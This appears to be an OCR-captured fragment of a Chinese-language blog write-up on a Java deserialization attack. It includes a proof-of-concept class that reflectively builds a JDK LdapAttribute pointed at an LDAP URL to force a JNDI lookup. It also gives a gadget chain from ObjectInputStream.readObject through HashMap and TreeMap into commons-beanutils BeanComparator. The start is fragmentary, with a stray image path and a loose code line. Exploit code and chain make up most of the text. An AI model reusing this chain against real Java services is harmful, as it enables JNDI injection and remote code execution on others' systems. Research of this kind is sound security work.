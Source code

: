 ```
var7 = this.c_resolveIntermediate_nns(var6, var2);
a\b\b就会成为 a \b\b
```



### `首先试了能否打通（如果打不通那就徒劳白费了）`：

```java
import javax.naming.CompositeName;
import javax.naming.InvalidNameException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class poc {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, InvalidNameException {


            String ldapCtxUrl = "ldap://127.0.0.1:9999";

            Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
            Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                    new Class[] {String.class});
            ldapAttributeClazzConstructor.setAccessible(true);
            Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                    new Object[] {"name"});

            Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
            baseCtxUrlField.setAccessible(true);
            baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

            Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
            rdnField.setAccessible(true);
            rdnField.set(ldapAttribute, new CompositeName("a//b"));

            Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition", new Class[] {});
            getAttributeDefinitionMethod.setAccessible(true);
            getAttributeDefinitionMethod.invoke(ldapAttribute, new Object[] {});
    }
}
```

![image-20231010183740300](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231010183740300.png)

最后写一下利用链子：

```java

java.io.ObjectInputStream#readObject
-> java.util.HashMap#readObject  
-> java.util.HashMap#putForCreate
-> java.util.HashMap#eq
-> java.util.AbstractMap#equals
-> java.util.TreeMap#get
-> java.util.TreeMap#getEntry
-> java.util.TreeMap#compare
    
    （下面都是通用的）
-> org.apache.commons.beanutils.BeanComparator#compare
-> org.apache.commons.beanutils.PropertyUtils#getProperty
```